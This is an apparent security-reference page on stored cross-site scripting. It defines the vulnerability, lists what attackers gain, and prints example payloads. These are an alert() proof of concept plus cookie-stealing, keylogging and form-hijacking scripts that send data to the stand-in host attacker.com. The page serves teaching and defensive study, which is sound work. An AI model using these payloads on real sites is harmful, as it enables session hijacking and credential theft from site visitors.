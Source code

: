 ```yaml
---
title: Stored Cross-Site Scripting (XSS)
draft: false
date: 2025-01-01
tags:
  - owasp
  - xss
  - stored_xss
  - injection
---
```


Stored Cross-Site Scripting (XSS) is a persistent web application vulnerability where malicious scripts are permanently stored on the target server (in databases, files, or other storage mechanisms) and subsequently served to users without proper sanitization. Unlike reflected XSS, which requires user interaction with a malicious link, stored XSS affects all users who access the compromised content, making it significantly more dangerous.

**Attack Persistence:** The malicious payload remains dormant until accessed, potentially affecting hundreds or thousands of users over time. This persistence makes stored XSS particularly valuable for:
- **Session Hijacking:** Stealing authentication cookies and tokens
- **Credential Harvesting:** Capturing login credentials through fake forms
- **Malware Distribution:** Redirecting users to exploit kits
- **Social Engineering:** Manipulating user behavior through trusted interfaces
- **Data Exfiltration:** Stealing sensitive information from authenticated sessions

**Basic Payload Injection:**

Attacker submits malicious content through comment forms, user profiles, or message boards:

```html
<script>alert('Stored XSS');</script>
```

When the application stores this input and displays it to other users without proper encoding, the script executes in victims' browsers.

**Advanced Persistent Payloads:**

```html
<!-- Cookie stealing payload -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>

<!-- Keylogger payload -->
<script>
document.addEventListener('keypress', function(e) {
    new Image().src = 'http://attacker.com/log.php?key=' + e.key;
});
</script>

<!-- Form hijacking payload -->
<script>
document.forms[0].action = 'http://attacker.com/harvest.php';
</script>
```
